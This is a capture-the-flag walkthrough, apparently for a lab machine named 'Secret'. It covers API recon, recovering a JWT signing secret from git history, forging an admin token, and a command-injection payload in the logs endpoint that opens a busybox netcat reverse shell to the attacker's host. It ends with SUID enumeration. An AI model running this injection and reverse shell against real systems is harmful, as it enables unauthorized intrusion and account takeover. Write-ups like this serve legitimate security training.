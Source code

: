 # Secret

![secret.png](images/secret.png)

# Recon

`nmap -sC -sV 10.10.11.120 -Pn`

![Untitled](images/Untitled.png)

## Web

### Directory Discovery

`gobuster dir -u http://10.10.11.120:3000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![Untitled](images/Untitled%201.png)

### API

API schema can be found at [http://10.10.11.120:3000/docs](http://10.10.11.120:3000/docs)

Register user

`curl '[http://10.10.11.120:3000/api/user/register](http://10.10.11.120:3000/api/user/register)' -X POST -d '{"[name":"test321","email":"test@test.com](mailto:name%22:%22test%22,%22email%22:%22test@test.com)","password":"test321"}' -H "Content-Type: application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](images/Untitled%202.png)

Login with a user we get the JWT token

`curl '[http://10.10.11.120:3000/api/user/login](http://10.10.11.120:3000/api/user/login)' -X POST -d '{"[email":"test1@test.com](mailto:email%22:%22test1@test.com)","password":"test321"}' -H "Content-Type:application/json" -x [http://localhost:8080/](http://localhost:8080/)`

![Untitled](images/Untitled%203.png)

Using the new header

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NWU2ZTg2MWMxMTQ2ODA0NWRiM2QzMjAiLCJuYW1lIjoidGVzdDEyMyIsImVtYWlsIjoidGVzdEB0ZXN0LmNvbSIsImlhdCI6MTcwOTYzMTgwMH0.Wk-d3Nm5XomrlCzUrqP9R3Rohx1RFMJnD6k4AcG5gT8"`

![Untitled](images/Untitled%204.png)

Fuzz the API using `ffuf`

`ffuf -u [http://10.10.11.120:3000/api/FUZZ](http://10.10.11.120:3000/api/FUZZ) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 93 -t 10`

![Untitled](images/Untitled%205.png)

### Database

![Untitled](images/Untitled%206.png)

### Code analysis

Possible RCE with this `exec` function inside the file `/routes/private.js`

![Untitled](images/Untitled%207.png)

There is a directory called `.git` that can contain private information

![Untitled](images/Untitled%208.png)

Here we can see the commit so we can access

![Untitled](images/Untitled%209.png)

Accessing that commit using the ID and we found the secret for the JWT token

`git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78`

![Untitled](images/Untitled%2010.png)

`gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`

### JWT token

Using the website we can paste there our JWT token and then put there the secret that we found

[https://jwt.io/](https://jwt.io/)

![Untitled](images/Untitled%2011.png)

Now modify the token as we can see on the docs the `_id`, `name` and `email` put the same values of the administrator user like this, don’t change the `iat` value

![Untitled](images/Untitled%2012.png)

To verify if we are admin user we can make a request to `/api/priv`

`curl '[http://10.10.11.120:3000/api/priv](http://10.10.11.120:3000/api/priv)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4" | jq .`

![Untitled](images/Untitled%2013.png)

## FootHold

Now that we are admin we can try to exploit the `exec` function found earlier, make a request to `/api/logs?file=` and we get this response

![Untitled](images/Untitled%2014.png)

By making a `ls` command we can list the contents of the current directory 

![Untitled](images/Untitled%2015.png)

RCE using `busybox`

Open a `netcat` listener, i used port `5555` you can use other port

`nc -nvlp 5555`

`curl '[http://10.10.11.120:3000/api/logs?file=;busybox nc 10.10.14.51 5555 -e bash](http://10.10.11.120:3000/api/logs?file=;busybox%20nc%2010.10.14.51%205555%20-e%20bash)' -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNzA5NTkwNjQ3fQ.3uq7MTeR1JfiKxj0g_cRo3hO7437lQyA1LkmjZriLr4"`

![Untitled](images/Untitled%2016.png)

## Privilege escalation

Upgrade shell

`python3 -c “import pty;pty.spawn(’/bin/bash’)”`

### SUID files

Find SUID files

`find / -type f -perm -4000 2>/dev/null`

![Untitled](images/Untitled%2017.png)

Run the count 

![Untitled](images/Untitled%2018.png)

Root flag

![Untitled](images/Untitled%2019.png)
